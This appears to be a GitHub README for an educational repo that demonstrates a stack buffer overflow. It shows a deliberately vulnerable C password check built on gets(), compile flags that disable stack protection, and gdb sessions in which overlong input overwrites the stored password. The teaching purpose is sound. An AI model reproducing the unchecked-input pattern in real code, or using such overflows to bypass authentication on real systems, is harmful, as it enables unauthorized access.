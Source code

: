 # StackOverflow

This repo was created to demonstrate the operation of a buffer overflow exploit, we are going to change a password variable within a vulnerable program which might illustrate for example how can an attacker grant access to an assumed program which requires authentication by overwriting the current/real password in the stack memory of a C program affecting **CONFIDENTIALITY AND INTEGRITY**. 

We will also impair the availability of the program generating a segmentation fault error which occurs when when a program attempts to access a memory location that it is not allowed to access, a violation in memory in most standards computers will trigger the OS kernel to perform a corrective action leading the program to be terminated, affecting the **AVAILABILITY** 

## A bit of memory 

Understanding stack-based overflow attacks involves at least a basic understanding of computer memory, let's review some very important concepts. 

### Stack memory: 

A stack is the memory which stores variables created by a function, it's temporary, when the program is finished, the memory of the variable will be automatically erased and the area freed up, the stack is managed by the CPU – so you don’t have to allocate or deallocate memory. The stack section mostly contains methods, local variable, and reference variables. 

![stack memory graph ](https://github.com/tavaresrodrigo/StackOverflow/blob/main/stack.png)
### Heap memory

The heap is the memory used by programming languages to store large block of memory, it's also known as dynamic memory. Unlike the stack this area of memory is managed by the programmer in C for example, variables are allocated and freed using functions like malloc() and free().

![stack memory vs heap memory comparison ](https://github.com/tavaresrodrigo/StackOverflow/blob/main/stackvsheap.png)


## The stack overflow exploit

When the execution stack grows beyond the memory that is reserved for it, you will cause a stack overflow as the stack will eventually consume more memory than is reserved for it and eventually overwrite other buffers in the same stack. 

### The exploit

The [code](https://github.com/tavaresrodrigo/StackOverflow/blob/main/code.c) used to illustrate the exploit has a number of security red flags.

``` C
#include <signal.h>
#include <stdio.h>
#include <string.h>
int main(){
	char realPassword[8];
	char givenPassword[8];

	strncpy(realPassword, "ffffffff", 8);
	gets(givenPassword);
	
	if (0 == strncmp(givenPassword, realPassword, 8)){
		printf("SUCCESS!\n");
	}else{
		printf("FAILURE!\n");
	}
	raise(SIGINT);
	printf("givenPassword: %s\n", givenPassword);
    printf("realPassword: %s\n", realPassword);
	return 0;
}
``` 

### gets()

The function **gets()** is used to read an arbitrary amount of data into a stack buffer without limiting the amount of data read, it just reads the data and dumps it into memory, basically this function does not matches the size of the data read with the size of the buffer, in our case **8**, which means we can pass any value to the buffer and it will be written into the stack memory.

### Compiling the code

For years attackers have been exploiting vulnerabilities in the stack memory, so it's expected that the compilers have developed mechanisms to protect the program execution against these attacks, for this this reason we will disable them in order to be able to reproduce the segmentation fault, in order to compile the program you should use the parameters below:

``` bash
# gcc -fno-stack-protector -z execstack -o code code.c
```

Do you remember the gets() ? Look at the compiler alert **"the `gets' function is dangerous and should not be used."**:

```bash
code.c: In function ‘main’:
code.c:9:2: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
    9 |  gets(givenPassword);
      |  ^~~~
      |  fgets
/usr/bin/ld: /tmp/ccipvQhp.o: in function `main':
code.c:(.text+0x2a): warning: the `gets' function is dangerous and should not be used.
```
### Running the code

As you might have noticed, the [programmer](https://blog.rapid7.com/2019/02/19/stack-based-buffer-overflow-attacks-what-you-need-to-know/)[1] had configured a **SIGINT** in the code that allows us to use the debugger[2] to dive deep in the stack frames and confirm what is happening at the memory level, let's run the program and pass "aaaaaaaaaaaaaaaa" 16xa which will dump 4 frames in the stack as we can see below: 

```bash
(gdb) run
Starting program: /home/vagrant/StackOverflow/code
aaaaaaaaaaaaaaaa
FAILURE!
```

Now let's check the area of memory where our 16x was stored, first we need to check where exactly the stack memory is :

```bash
(gdb) info frame
Stack level 0, frame at 0x7fffffffe480:
 rip = 0x7ffff7e1618b in __GI_raise (../sysdeps/unix/sysv/linux/raise.c:50); saved rip = 0x555555555237
 called by frame at 0x7fffffffe4d0
 source language c.
 Arglist at 0x7fffffffe358, args: sig=<optimized out>
 Locals at 0x7fffffffe358, Previous frame's sp is 0x7fffffffe480
  Saved registers:
  rip at 0x7fffffffe478
```

We already know from where to start the search so let's show at least 100 frames on the screen:

```bash
(gdb) x/100x 0x7fffffffe358
[...]
0x7fffffffe468:	0x6b453000	0x0ddcad0a	0x00000000	0x00000000
0x7fffffffe478:	0x55555237	0x00005555	0x61616161	0x61616161
0x7fffffffe488:	0x61616161	0x61616161	0xf7fc0f00	0x00007fff
0x7fffffffe498:	0x55555270	0x00005555	0x66666666	0x66666666
0x7fffffffe4a8:	0x555550e0	0x00005555	0xffffe5b0	0x00007fff
[...]
```

### Overwriting the program variable in the stack

In [ASCII](https://www.rapidtables.com/code/text/ascii-table.html) [3] "a" is 61 as "f" is 66, so as we could see the 4 frames filled up with our input, and most importantly, we noticed there are only 4 frames (16K) between the area of memory which is storing the realPassword "0x66666666", what happens if we store 52xa (12+1 frames) running our program one more time ?

```bash
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/vagrant/StackOverflow/code
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
SUCCESS!
```
Voila, **SUCCESS** the realPassword was overwritten and the new password in memory now is equivalent to "realPassword, "ffffffff", 8"., if we check the memory again we will confirm that the following frames were dumped with "0x61616161":

```bash
(gdb) x/100x 0x7fffffffe358
[...]
0x7fffffffe468:	0x553fd900	0x4d79bf14	0x00000000	0x00000000
0x7fffffffe478:	0x55555237	0x00005555	0x6d6d6f63	0x20646e61
0x7fffffffe488:	0x61616161	0x61616161	0x61616161	0x61616161
0x7fffffffe498:	0x61616161	0x61616161	0x61616161	0x61616161
0x7fffffffe4a8:	0x61616161	0x61616161	0x61616161	0x61616161
0x7fffffffe4b8:	0x00000000	0x00000000	0x00000000	0x00000000
[...]

```

### To reproduce this exploit you will


## References


[1] https://blog.rapid7.com/2019/02/19/stack-based-buffer-overflow-attacks-what-you-need-to-know/
[2] https://www.gnu.org/software/gdb/
[3] https://www.rapidtables.com/code/text/ascii-table.html
[3] https://owasp.org/www-community/vulnerabilities/Buffer_Overflow
[4] https://www.youtube.com/watch?v=1S0aBV-Waeo